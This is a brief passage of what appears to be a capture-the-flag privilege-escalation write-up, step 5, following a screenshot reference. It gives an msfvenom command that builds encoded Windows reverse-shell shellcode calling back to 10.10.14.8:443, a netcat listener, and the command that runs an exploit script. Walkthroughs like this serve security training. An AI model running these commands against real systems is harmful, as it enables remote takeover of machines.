 ![writeup.privesc.steps.4.2](./screenshot13.png)  

5\. We update the exploit with the right shellcode, setup a reverse shell to catch incoming connection and run the exploit:  
``` {.python .numberLines}
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.8 lport=443 -b "\x00\x0a\x0d" -f python -a x86 --platform windows -e x86/shikata_ga_nai

sudo nc -nlvp 443
python 48389.py

```
